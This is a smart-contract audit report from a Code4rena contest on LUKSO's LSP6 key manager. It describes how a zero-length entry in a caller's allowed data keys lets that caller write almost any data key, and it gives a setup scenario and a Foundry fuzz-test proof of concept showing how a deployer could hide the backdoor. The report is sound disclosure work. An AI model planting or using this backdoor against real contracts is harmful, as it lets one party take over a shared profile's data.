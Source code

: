 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- downgraded by judge
- high quality report
- primary issue
- satisfactory
- selected for report
- M-07

# [Insufficient Length Check When Verifying Allowed Data Keys](https://github.com/code-423n4/2023-06-lukso-findings/issues/97) 

# Lines of code

https://github.com/code-423n4/2023-06-lukso/blob/9dbc96410b3052fc0fd9d423249d1fa42958cae8/contracts/LSP6KeyManager/LSP6Modules/LSP6SetDataModule.sol#L559; https://github.com/code-423n4/2023-06-lukso/blob/9dbc96410b3052fc0fd9d423249d1fa42958cae8/contracts/LSP6KeyManager/LSP6Modules/LSP6SetDataModule.sol#L679


# Vulnerability details

## Impact
There is an insufficient length check when validating the allowed data keys that can be set by a caller. In particular, if a decoded length in the compact bytes array happens to be 0, the caller will be validated against any data key.

Although a decoded length is not possible when setting allowed data keys via the `LSP6SetDataModule` contract, there is no guarantee that data values before ownership transfer to an LSP6 contract are valid. This allows a scamming opportunity as malicious actors who set-up an ERC725 contract for another can create a backdoor that cannot be easily seen as the allowed data keys will simply have an extra `0x0000`.

When verifying allowed data keys that a caller can set, a length check is done on the first 2 bytes of a compact bytes array to ensure that the length does not exceed a data key's length.

```solidity=559
            if (length > 32)
                revert InvalidEncodedAllowedERC725YDataKeys(
                    allowedERC725YDataKeysCompacted,
                    "couldn't DECODE from storage"
                );
```

This `length` value is used to decide the bit mask when validating data keys.

```solidity=581
            mask =
                bytes32(
                    0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
                ) <<
                (8 * (32 - length));
```

In the case that `length == 0`, then `mask == bytes32(0)`.

Then the validation check for all data keys will pass as the validation will be reduced to whether or not `allowedKey & bytes32(0) == inputDataKey & bytes32(0)`, which is always true.

```solidity=600
                allowedKey := and(memoryAt, mask)
            }

            if (allowedKey == (inputDataKey & mask)) return;
```

This allows the caller to set data values for all data keys except those used for LSP1, LSP6, and LSP17 due to the initial checks in `LSP6SetDataModule._getPermissionRequiredToSetDataKey()`. In particular, they would be able to obstruct data values for the following established keys:
- LSP3 keys detailing information about a universal profile
- LSP5 keys detailing information about received assets
- LSP10 keys detailing information about vault ownership

## Proof of Concept
Suppose userA and userB wish to share a universal profile and decide to use an LSP6 key manager to manage the profile. userA is decided to set-up the contracts. However, userA is malicious and does the following:
- Deploys the universal profile contract with userA as the owner
- Sets up permissions and data keys agreed by userA and userB
  - In particular, assume userA has permission to set data for specific data keys
- Adds `0x0000` at the beginning or end of the allowed data keys of userA
- Deploys the LSP6 key manager
- Transfers ownership of the universal profile to the LSP6 key manager

If userB does not trust userA, they are able to check userA's permissions and allowed data keys, but will find an extra `0x0000` in the allowed data keys, which does not appear malicious. However, this allows userA the ability to change the data value for almost all data keys.

The following fuzz test written in foundry shows that after adding `0x0000` to the allowed data keys of `malicious`, `malicious` is able to set the data value of most data keys.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "../src/UniversalProfile.sol";
import "../src/LSP9Vault/LSP9Vault.sol";
import "../src/LSP1UniversalReceiver/LSP1UniversalReceiverDelegateUP/LSP1UniversalReceiverDelegateUP.sol";
import "../src/LSP6KeyManager/LSP6KeyManager.sol";
import "../src/LSP14Ownable2Step/ILSP14Ownable2Step.sol";
import "../submodules/ERC725/implementations/contracts/interfaces/IERC725Y.sol";

import {BytesLib} from "solidity-bytes-utils/contracts/BytesLib.sol";
import {LSP2Utils} from "../src/LSP2ERC725YJSONSchema/LSP2Utils.sol";

import "../src/LSP1UniversalReceiver/LSP1Constants.sol";
import "../src/LSP6KeyManager/LSP6Constants.sol";
import "../src/LSP17ContractExtension/LSP17Constants.sol";

contract LSP6Test is Test {
    using BytesLib for bytes;

    UniversalProfile profile;
    LSP9Vault vault;
    LSP1UniversalReceiverDelegateUP LSP1Delegate;
    LSP6KeyManager keyManager;


    function setUp() public {
        profile = new UniversalProfile(address(this));
        keyManager = new LSP6KeyManager(address(profile));
        LSP1Delegate = new LSP1UniversalReceiverDelegateUP();
        profile.setData(_LSP1_UNIVERSAL_RECEIVER_DELEGATE_KEY, bytes.concat(bytes20(address(LSP1Delegate))));
    }

    function testLSP6BypassAllowedDataKeys(bytes32 dataKey, bytes32 _dataValue) public {
        // dataKey cannot be LSP1, LSP6, or LSP17 data key
        vm.assume(bytes16(dataKey) != _LSP6KEY_ADDRESSPERMISSIONS_ARRAY_PREFIX);
        vm.assume(bytes6(dataKey) != _LSP6KEY_ADDRESSPERMISSIONS_PREFIX);
        vm.assume(bytes12(dataKey) != _LSP1_UNIVERSAL_RECEIVER_DELEGATE_PREFIX);
        vm.assume(bytes12(dataKey) != _LSP17_EXTENSION_PREFIX);

        // Give owner ability to transfer ownership
        bytes32 ownerDataKey = LSP2Utils.generateMappingWithGroupingKey(
            _LSP6KEY_ADDRESSPERMISSIONS_PERMISSIONS_PREFIX,
            bytes20(address(this))
        );
        profile.setData(ownerDataKey, bytes.concat(_PERMISSION_CHANGEOWNER));

        // Set permissions and allowed data keys for malicious address
        address malicious = vm.addr(1234);

        bytes32 permissionsDataKey = LSP2Utils.generateMappingWithGroupingKey(
            _LSP6KEY_ADDRESSPERMISSIONS_PERMISSIONS_PREFIX,
            bytes20(malicious)
        );
        bytes32 allowedDataKeysDataKey = LSP2Utils.generateMappingWithGroupingKey(
            _LSP6KEY_ADDRESSPERMISSIONS_AllowedERC725YDataKeys_PREFIX,
            bytes20(malicious)
        );

        profile.setData(permissionsDataKey, bytes.concat(_PERMISSION_SETDATA | _PERMISSION_CHANGEOWNER));
        profile.setData(allowedDataKeysDataKey, bytes.concat(bytes2(0)));

        // Transfer ownership to LSP6KeyManager
        profile.transferOwnership(address(keyManager));
        bytes memory payload = abi.encodeWithSelector(
            ILSP14Ownable2Step.acceptOwnership.selector, 
            ""
        );
        keyManager.execute(payload);
        assert(profile.owner() == address(keyManager));

        // Verify malicious can set data for most data keys
        bytes memory arg = abi.encode(dataKey, bytes.concat(_dataValue));
        bytes memory data = abi.encodeWithSelector(
            IERC725Y.setData.selector, 
            arg
        );
        keyManager.lsp20VerifyCall(malicious, 0, data);
    }
}
```


## Tools Used
Manual

## Recommended Mitigation Steps
It is recommended to add a check requiring that `length > 0`.


## Assessed type

Other